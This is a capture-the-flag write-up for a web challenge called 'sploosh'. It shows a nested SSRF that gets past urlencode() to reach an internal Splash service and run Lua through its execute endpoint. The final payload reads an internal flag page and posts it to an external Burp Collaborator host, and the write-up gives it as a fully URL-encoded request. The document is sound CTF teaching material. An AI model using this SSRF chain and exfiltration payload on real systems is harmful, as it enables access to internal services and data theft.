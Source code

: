 # sploosh

**Category**: Web

**The task**:

![img0](./images/task.png)

To get the flag, you simply had to send a request to ``flag.php``, however, it works only for internal hosts:

```php
<?php

$FLAG = getenv("FLAG");

$remote_ip = $_SERVER['REMOTE_ADDR'];
if ($remote_ip === "172.16.0.13" || $remote_ip === '172.16.0.14') {
  echo $FLAG;
} else {
  echo "No flag for you :)";
}
?>

```

We cannot inject new parameters to the internal _splash_ microservice request due to ``urlencode()``:

```php
try {
  $json = file_get_contents("http://splash:8050/render.json?timeout=1&url=" . urlencode($url));
  $out = array("geometry" => json_decode($json)->geometry);
  echo json_encode($out);
} catch(Exception $e) {
  fail();
}
```

# Solution

To overcome the ``urlencode()`` and fully control the path(+parameters) of the internal request to the _splash_ microservice: just nest it in another SSRF(==make splash send request to itself).

Once you got that, it is possible to execute Lua scripts using an internal _splash_ [/exec endpoint](https://splash.readthedocs.io/en/stable/api.html#execute).

Final payload:
```lua
function main(please)
    local flag = please:http_get("http://webapp/flag.php").body
    please:http_post{url="http://aaovywoyfoyk06vas7lb8xyz8qeh26.burpcollaborator.net/postReq", body=flag}
    return "ok"
end
```

Encode it & launch it in a "2nd-order" SSRF:
```
GET /api.php?url=http://splash:8050/execute?lua_source=%66%75%6e%63%74%69%6f%6e%20%6d%61%69%6e%28%70%6c%65%61%73%65%29%0a%20%20%20%20%6c%6f%63%61%6c%20%66%6c%61%67%20%3d%20%70%6c%65%61%73%65%3a%68%74%74%70%5f%67%65%74%28%22%68%74%74%70%3a%2f%2f%77%65%62%61%70%70%2f%66%6c%61%67%2e%70%68%70%22%29%2e%62%6f%64%79%0a%20%20%20%20%70%6c%65%61%73%65%3a%68%74%74%70%5f%70%6f%73%74%7b%75%72%6c%3d%22%68%74%74%70%3a%2f%2f%61%61%6f%76%79%77%6f%79%66%6f%79%6b%30%36%76%61%73%37%6c%62%38%78%79%7a%38%71%65%68%32%36%2e%62%75%72%70%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%2e%6e%65%74%2f%70%6f%73%74%52%65%71%22%2c%20%62%6f%64%79%3d%66%6c%61%67%7d%0a%20%20%20%20%72%65%74%75%72%6e%20%22%6f%6b%22%0a%65%6e%64 HTTP/1.1
Host: sploosh.chal.perfect.blue
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: */*
Referer: http://sploosh.chal.perfect.blue/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Incoming request in collaborator:

![img1](./images/flag.png)

